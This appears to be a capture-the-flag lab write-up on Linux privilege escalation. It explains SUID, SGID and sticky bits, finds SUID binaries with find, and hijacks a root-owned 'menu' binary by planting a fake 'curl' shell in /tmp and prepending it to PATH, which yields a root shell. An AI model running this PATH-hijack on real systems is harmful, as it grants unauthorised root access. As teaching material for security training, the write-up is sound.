 # Path Variable Manipulation 

### SUID / SGID / Stick bit explanation 

![https://i.imgur.com/LN2uOCJ.png](https://i.imgur.com/LN2uOCJ.png)

| Permission  | On Files  | On Directories  |
|---|---|---|
| SUID bit  | User executes the file with permissions of the file owner  | -  |
| SGID bit  | User executes the file with the permission of the group owner.  | File created in directory gets the same group owner.  |
| Sticky bit  | No meaning  | Users are prevented from deleting files from other users.  |

### Search for files that contain SUID bit

```bash
kenobi@kenobi:~$  find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```

Most of the above files look standard unix, however, /usr/bin/menu looks out of place.

## Examining /usr/bin/menu

Running the command 'strings' , this shows that the binary runs the commands, ipconfig, curl and uname. However, when menu calls this function they use the relative path rather than an absolute path. 

```bash
kenobi@kenobi:~$ ll -a /usr/bin/menu 
-rwsr-xr-x 1 root root 8880 Sep  4  2019 /usr/bin/menu*
```

Also it shows that the menu command runs as root.

## Getting a shell as root

Copy /bin/sh to current directory and rename as curl.

```bash
kenobi@kenobi:/tmp$ echo /bin/sh > curl 
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# whoami
root
# 
```